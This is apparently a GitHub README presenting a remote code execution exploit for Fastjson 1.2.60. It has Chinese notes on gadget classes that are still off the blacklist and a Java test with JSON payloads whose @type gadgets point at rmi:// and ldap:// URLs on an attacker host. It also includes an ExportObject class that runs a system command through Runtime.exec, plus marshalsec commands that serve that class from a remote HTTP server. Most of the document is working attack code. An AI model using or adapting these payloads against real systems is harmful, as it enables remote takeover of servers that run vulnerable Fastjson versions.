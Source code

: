 # fastjson-1.2.60-rce

![](./Fastjson-1.2.60-RCE.gif)



## Gadgets
```
经过测试，命中的4个文件都是可以利用的。

不过其中HikariConfig类就是前文提到的类，在最新版本被加入黑名单，JNDIConnectionPool类在42版本前就被加入黑名单了。

另外的两个类JNDIConfiguration和 OracleManagedConnectionFactory都可以构造出攻击poc，且尚未被加入黑名单。

source/commons-configuration-1.9/org/apache/commons/configuration/JNDIConfiguration.java containsKey

source/commons-configuration-1.9/org/apache/commons/configuration/JNDIConfiguration.java getProperty

source/HikariCP-3.3.1/com/zaxxer/hikari/HikariConfig.java getObjectOrPerformJndiLookup

source/ojdbc14-10.2.0.2/oracle/jdbc/connector/OracleManagedConnectionFactory.java setupXADataSource

source/xalan-2.7.2/org/apache/xalan/lib/sql/JNDIConnectionPool.java findDatasource
```

### FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){

        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 ="{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"rmi://10.10.20.166:1099/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}
```

### ExportObject.java
```
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class ExportObject {
    public ExportObject() throws Exception {
        Process proc = Runtime.getRuntime().exec("calc");
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();

        String line;
        while((line = br.readLine()) != null) {
            sb.append(line).append("\n");
        }

        String result = sb.toString();
        Exception e = new Exception(result);
        throw e;
    }

    public static void main(String[] args) throws Exception {
    }
}

```

## RMI RefServer
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

## LDAP RefServer
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`
![](./1.2.60.png)

## 参考链接：

https://mmbiz.qpic.cn/mmbiz_png/f2yQgjGph7MnkCl1YEUxd6Q8mDjQkicxL7JuOFjxlOjWwQtWyYQzjE5yYkSuJVwic9qdnmRYXTtEJqxM3Efc1lYw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1

https://www.freebuf.com/articles/web/213327.html

https://mp.weixin.qq.com/s?__biz=MzUyNTk1NDQ3Ng==&mid=2247484350&idx=1&sn=de51dd5707a2ff5464423407195e9177&scene=21#wechat_redirect
